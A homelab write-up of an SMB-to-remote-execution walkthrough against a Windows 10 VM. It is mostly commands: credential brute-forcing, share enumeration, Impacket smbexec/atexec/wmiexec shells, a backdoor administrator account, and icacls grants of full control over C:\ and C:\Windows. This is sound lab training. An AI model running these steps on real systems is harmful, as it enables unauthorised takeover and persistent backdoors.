# Remote Code Execution via SMB Bypass



This SMB bypass techniques used to achieve remote command execution on a Windows 10 VM (192.168.100.20) from a Kali machine (192.168.100.128). The page includes credential brute-forcing, share enumeration and access, Impacket exploitation (smbexec, atexec, wmiexec), persistence creation and RDP verification.

## Environment Setup
- **Kali Linux:** 192.168.100.128
- **Windows 10:** 192.168.100.20

## SMB Testing

### 1. Credential brute-forcing (CrackMapExec)
```bash
crackmapexec smb 192.168.100.20 -u users.txt -p passwords.txt
```
Result: validated `admin:password123`.



### 2. Listing SMB shares
```bash
smbclient -L //192.168.100.20 -U 'admin%password123'

smbmap -H 192.168.100.20 -u admin -p password123
```


### 3. Accessing SMB shares
```bash
smbclient //192.168.100.20/Users -U admin%password123

# in smbclient:
get <filename>
put <local_filename>
```

### 4. SMB scanning with nmap
```bash
nmap -p 445 192.168.100.20 --script smb-enum-shares

nmap -p 445 192.168.100.20 --script smb-protocols
```

## SMB share creation attempts

### Attempt 1 — create test folder
```powershell
New-Item -Path 'C:\smbtest' -ItemType Directory -Force
```

### Attempt 2 — create hidden AdminShare$
```powershell
New-Item -Path 'C:\AdminShare' -ItemType Directory -Force

icacls 'C:\AdminShare' /grant 'Everyone:(OI)(CI)F' /T
New-SmbShare -Name 'AdminShare$' -Path 'C:\AdminShare' -FullAccess 'Everyone'
```

### Attempt 3 — modify ADMIN$ and C$ permissions
```powershell
icacls C:\Windows /grant 'Everyone:(OI)(CI)F' /T

icacls C:\ /grant 'Everyone:(OI)(CI)F' /T
```


## Impacket (smbexec / atexec / wmiexec)



### Setup
```bash
git clone https://github.com/fortra/impacket.git
```

### Run smbexec (semi-interactive shell)
```bash
python3 ~/Desktop/Win10/impacket/examples/smbexec.py admin:password123@192.168.100.20
```


### Run atexec (single command)
```bash
python3 ~/Desktop/Win10/impacket/examples/atexec.py admin:password123@192.168.100.20 "whoami"
```


### Run wmiexec (semi-interactive)
```bash
python3 ~/Desktop/Win10/impacket/examples/wmiexec.py admin:password123@192.168.100.20
```


If smbexec failed due to logger init error, create a backup and adjust the logger line: replace `logger.init(options.ts, options.debug)` with `logger.init()` in the example script (make a backup first).

## Persistence

### Create backdoor user
```powershell
net user hacker Password123 /add

net localgroup administrators hacker /add
```


Verify with `net user hacker` and `net localgroup administrators`.

## Restoring SMB access (icacls)

### Grant hacker full filesystem permissions
```powershell
icacls C:\Windows /grant hacker:(OI)(CI)F

icacls C:\ /grant hacker:(OI)(CI)F
```



Note: using `net share <share> /grant` is not valid for ADMIN$ and C$. Use filesystem ACLs instead.

## RDP Access

```bash
xfreerdp3 /u:admin /p:password123 /v:192.168.100.20

xfreerdp3 /u:hacker /p:Password123 /v:192.168.100.20
```


Confirm GUI access and interactive tasks via RDP after enabling appropriate firewall rules and services.


---

### Conclusion
This homelab project demonstrates how SMB vulnerabilities can be exploited to achieve remote code execution in a safe and controlled environment. By walking through enumeration, credential testing, and executing commands remotely, the exercise highlights both offensive techniques and defensive lessons. It reinforces the importance of disabling unnecessary services, enforcing strong authentication, and monitoring SMB traffic to prevent real-world exploitation. Overall, the project serves as practical training for strengthening penetration testing skills and understanding system hardening measures.

- Demonstrated an SMB-to-RCE attack path in a homelab.
- Covered enumeration, credential testing, and remote execution steps.
- Highlighted risks of weak authentication and poor configurations.
- Emphasized system hardening and monitoring for defense.


